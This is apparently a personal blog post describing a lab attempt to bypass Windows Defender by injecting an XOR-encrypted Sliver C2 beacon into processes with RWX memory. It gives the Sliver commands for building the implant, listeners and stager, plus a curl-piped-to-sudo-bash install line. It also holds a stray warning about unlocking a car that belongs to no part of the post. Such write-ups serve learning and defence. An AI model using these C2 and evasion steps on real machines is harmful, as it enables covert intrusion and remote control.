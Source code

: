 +++
title = 'Injecting Shellcode Via RWX Protected Memory Regions'
date = 2025-07-10
draft = false
+++


## 1. PREFACE
So I've been doing some couples of malware academy modules and reverse engineering malwares, but i've never tried to officially bypass windows defender and inject a shellcode. So, I’ve been trying a simple defense evasion technique for windows defender by enumerating processes with a RWX Protected memory region to inject my sliver beacon combined with XOR encryption. One point to note is that, even though it bypasses windows defender antivirus, that doesn't mean that it does not leave other IOC's and to apply this in a real world scenario would require additional stealth features. In this blog, I'll talk about my successes and challenges.


>[!warning] Warnigng
>Be ready to read a real

>[!warning] Important
>Important to note, that I did not take any pictures, only a video showing the unlocking of the car. Sadly, I don't really have access to the car anymore to take pictures of the processes, but I will be detailing the thought processes and the hurdles we faced throughout this experience

---

## 2. SETUP

### SETTING UP SLIVER C2 ON KALI

1. Generating beacon profile implant : `profiles new beacon --mtls 192.168.38.128 --os windows --arch amd64 --format shellcode --seconds 5 --jitter 3 win_implant`

>[!warning]
> `--skip-symbols` disables obfuscation

2. Starting the mtls listener : `mtls`
3. Starting the stage listener : `stage-listener --url tcp://192.168.38.128:8443 --profile win_implant`
4. See you listener : `jobs`
5. Generate the stager : `generate stager --lhost 192.168.38.128 --lport 8443 --arch amd64 --format c --save /tmp`

>[!warning]
>You might encounter issues while trying to generate your stager, if you've installed sliver with this : `curl https://sliver.sh/install|sudo bash`. You might need to install it from the release binaries

### SETTING UP TARGET WINDOWS MACHINE

1. Install Windows on a VM
2. Make sure windows defender is up to date and activated

---

## 3. Development

1. Enumerating the processes
2. If we're able to open the process, we'll have query inside it's memory to find a memory section with RWX
3. Once we find it we will decrypt and inject the shellcode inside that memory region and then start a thread starting from that section
4. We should get a reverse shell connection back to our `Slvier C2` if everything went well (sadly we don't😢)

---

## Problems encountered

- My payload kept getting injected into `SearchApp.exe` which is only used when performing searches and by looking at the process inside `System Informer` formerly known as `Process Hacker`, I could see that the process is almost always in a suspended state, unless i perform searches on the host, so i thought that was the problem

{{< image src="/images/Pasted image 20250705004129.png" alt="20250705004129" position="center" style="border-radius: 6px; margin-top: 20px; margin-bottom: 20px; margin-left: auto; margin-right: auto" >}}

- So I tried to perform a search, so that the process would resume, but as soon as it resumed it crashed...

- I also could see that even though my shellcode was written inside the memory, it was not fully written, but only portion

{{< image src="/images/Pasted image 20250708172711.png" alt="20250708172711" position="center" style="border-radius: 6px; margin-top: 20px; margin-bottom: 20px; margin-left: auto; margin-right: auto" >}}

- So i went in x64dbg, to in x32dbg to inspect it a little bit further (the beauty of learning reverse engineering, I still suck btw)
    1. Set a breakpoint on `WriteProcessMemory`, so the first process that has `RWX` 
    2. Go on the memory section and identify the third argument and follow in dump, execute till return and see a change happening in the dump
    3. Follow the pointer that was written in the next dump tab and you will see the shellcode

{{< image src="/images/Pasted image 20250708211454.png" alt="20250708211454" position="center" style="border-radius: 6px; margin-top: 20px; margin-bottom: 20px; margin-left: auto; margin-right: auto" >}}

{{< image src="/images/Pasted image 20250708211552.png" alt="20250708211552" position="center" style="border-radius: 6px; margin-top: 20px; margin-bottom: 20px; margin-left: auto; margin-right: auto" >}}

{{< image src="/images/Pasted image 20250708211707.png" alt="20250708211707" position="center" style="border-radius: 6px; margin-top: 20px; margin-bottom: 20px; margin-left: auto; margin-right: auto" >}}

- I could clearly see that my shellcode was passed fully to the `WriteProcessMemory`, but anyway by changing my code a little bit and how I was passing my shellcode the function, I was able to fix it


{{< image src="/images/poc8.png" alt="poc8" position="center" style="border-radius: 6px; margin-top: 20px; margin-bottom: 20px; margin-left: auto; margin-right: auto" >}}

- This did not fix the real problem, so I thought maybe I should inject in another process, maybe that would give a different result, so this is what I did, but as soon as the shellcode got injected and I created a thread to start at that newly written memory region, the program crashed...what is going on? this is not good, even though this is a lab, I was thinking in a real world scenario if you see some of your app crash, after running a program, this will immediately trigger a red alert, even though windows defender doesn't detect anything

- Maybe pausing the process, inject the shellcode and then resume, would fix the problem but, no, I got the same result

- So, I tried a bunch of different things, but always ended up at the same result, but, at least the good news is that I was able to bypass windows defender, right? We have to stay positive in this field, count them small wins...

{{< image src="/images/Pasted image 20250624141138.png" alt="20250624141138" position="center" style="border-radius: 6px; margin-top: 20px; margin-bottom: 20px; margin-left: auto; margin-right: auto" >}}

### 3. Conclusion

To conclude, even though this gets undected by the windows defender antivirus, it still would get detected by an EDR and this angle is not stable enough. What i mean by that, is that since we're overwritting a section of memory that has the RWX Protected Memory Region, i can deduce that the app crashes because we might be overwritting a critical section of the process that is needed to make the process run smoothly. Also, if you see an app crash, this could potentially lead your malware to be discovered which is no good. This type of defense evasion is a good learning experience, but to apply this into a real world scenario would require additionnal tweaks or a different approach.